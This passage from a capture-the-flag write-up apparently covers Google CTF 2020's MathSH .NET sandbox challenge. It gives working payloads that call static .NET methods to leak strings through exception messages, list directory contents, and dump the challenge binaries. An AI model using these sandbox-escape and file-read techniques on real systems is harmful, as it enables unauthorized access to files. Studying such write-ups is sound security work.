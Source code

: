 ## Leak primitives and dumping

The `__global__` namespace allows calling nearly arbitrary .NET functions,
although some restrictions apply:  
- The called method or issued property has to be static (member methods can't be called)  
- Only numbers, arrays of bytes and exception messages are printed to the console

Furthermore it's possible to nest the function calls. For instance, by
combining `ReadAllText` and querying the static getter
`AppContext.BaseDirectory`.

```  
MathSH>
__global__.System.IO.File.ReadAllText(__global__.System.AppContext.BaseDirectory)  
Could not find a part of the path 'C:\ctf\challenge\'.  
```

The above-used function `ReadAllText` allows leaking strings, since the
argument is reflected in the error message. We are pretty certain that there
are multiple ways to leak string objects via exception messages, this one just
happened to be the first one we found. By using `String.Concat` we can call
the `ToString` method on almost every object that overloads the base method.
Using this methodology we are able to list all the files in the current
directory:

```  
MathSH>
__global__.System.IO.File.ReadAllText(__global__.System.String.Concat(__global__.System.IO.Directory.EnumerateFiles(".",
"*")))  
Could not find a part of the path
'C:\ctf\challenge\Antlr3.Runtime.dll\GoogleCTF2020.exe\JScriptRunner.dll\SlimlineJScript.dll'.  
```

Since we already know that `C:\ctf\challenge\` is our base path, the resulting
files are:  
- Antlr3.Runtime.dll  
- GoogleCTF2020.exe  
- JScriptRunner.dll  
- SlimlineJScript.dll

Fortunately, the console prints `System.Byte[]` objects! Hence, we can
download the challenge binaries by calling:

```  
MathSH>  __global__.System.IO.File.ReadAllBytes("GoogleCTF2020.exe")  
77 # <= 0x4D  
90 # <= 0x5A = MZ Header  
[...]  
```

## Sandbox analysis

We can open the dumped binaries in [dnSpy](https://github.com/0xd4d/dnSpy) and
analyse the code. Lets start with the assembly of the host program,
`GoogleCTF2020.exe`. The only interesting method is `Program.SetupAppDomain`.
It's short enough to include it here:

